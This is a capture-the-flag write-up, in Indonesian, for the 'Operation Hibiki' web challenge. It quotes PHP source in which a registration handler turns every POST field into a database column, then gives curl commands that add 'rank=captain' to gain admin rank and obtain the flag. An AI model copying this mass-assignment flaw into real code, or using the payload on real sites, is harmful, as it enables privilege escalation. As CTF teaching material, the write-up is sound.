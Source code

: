 # __ASGama CTF__ 
## _Operation Hibiki_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 125 | l0l

**Description:** 

> Bahaya komandan, kapal perang pendjadjah sebentar lagi akan berlabuh di laut selatan. Kita harus bisa mengambil alih kapal tersebut, untungnya kami berhasil menyusup ke jaringan internal kapal pendjadjah hibiki dan mencuri source code panel komando kapal tersebut. Akan tetapi kami masih tidak bisa mengambil alih karena tidak punya akses sebagai admin. Dapatkah kamu meretasnya ?
> 
> http://gamactf.asgama.web.id:41002/login.php
> 
> [OperationHibiki](./Operation_Hibiki_source.zip)


### Operation Hibiki
Diberikan sebuah service yang mengharuskan kita untuk login sebagai admin.
[login_proc]
```php
    if(isset($_POST["username"])){

        $username = $_POST["username"];
        $password = $_POST["password"];

        $stmt = $conn->prepare("select * from users where username=:username and password=:password");
        $stmt->bindParam(":username", $username);
        $stmt->bindParam(":password", $password);
        $stmt->execute();

        $user = $stmt->fetch();

        if(!$user){
            die("Username/Password Salah");
        }

        if($user["rank"] === "captain"){
            echo "Welcome captain, here your flacc: ### BENDERANYA DISINI YA GAN HEHEHE ###";
        }else{
            echo "Welcome hibiki member";
        }

 
    }else{
        echo "PERGI WOE HEKEL !!!";
    }
```

Tidak ada celah SQL Injection disini karena service tersebut menggunakan prepared statement. Namun yang menarik adalah pada bagian  
```php
if($user["rank"] === "captain"){
            echo "Welcome captain, here your flacc: ### BENDERANYA DISINI YA GAN HEHEHE ###";
        }
```

Yang berarti kita harus login sebagai user yang memiliki `rank` captain. Berarti di dalam database table user terdapat kolom "rank"  
Sekarang kita cek source code untuk registrasi.

[register_proc]
```php
<?php

    include "core/koneksi.php";

    function filter($string){
        return preg_replace("/[^a-zA-Z]/", "", $string);
    }

    if(isset($_POST["username"])){

        $columns = "";
        $values = "";

        foreach($_POST as $key => $value){
            $columns .= filter($key) . ",";
            $values .= "'" . filter($value) . "',";
        }

        $columns = substr($columns, 0, -1);
        $values = substr($values, 0, -1);

        $stmt = $conn->prepare("insert into users ($columns) values ($values)");


        if($stmt->execute()){
            echo "Registrasi Sukses, <a href='login.php'>Login</a>";
        }else{
            echo "Registrasi Gagal/Username telah terpakai, <a href='register.php'>Back</a>";
        }

    }else{
        echo "PERGI WOE HEKEL !!!";
    }

?>
```

Di sini terlihat bahwa hanya dilakukan pengecekan apakah ada data $_POST['username']. Selebihnya semua variable dalam $_POST akan diekstrak menjadi pasangan column-value sebagai query untuk database.

Dari sini terlihat bahwa kita dapat melakukan injeksi pada $_POST dengan menambahkan kolom "rank" dengan value "captain" untuk mendapatkan user dengan rank captain.


### Payload
1. Register user  
```
curl -X POST -d "username=testestest&password=testestest&rank=captain" http://gamactf.asgama.web.id:41002/register_proc.php
```

2. Login
```
curl -X POST -d "username=testestest&password=testestest&rank=captain" http://gamactf.asgama.web.id:41002/login_proc.php
```

### Result
1. Setelah register
```
curl -X POST -d "username=testestest&password=testestest&rank=captain" http://gamactf.asgama.web.id:41002/register_proc.php
Registrasi Sukses, <a href='login.php'>Login</a>
```

2. Setelah login
```
 curl -X POST -d "username=testestest&password=testestest" http://gamactf.asgama.web.id:41002/login_proc.php 
Welcome captain, here your flacc: GamaCTF{destroyer_is_better_than_battleship}
```

### Flag
GamaCTF{destroyer_is_better_than_battleship}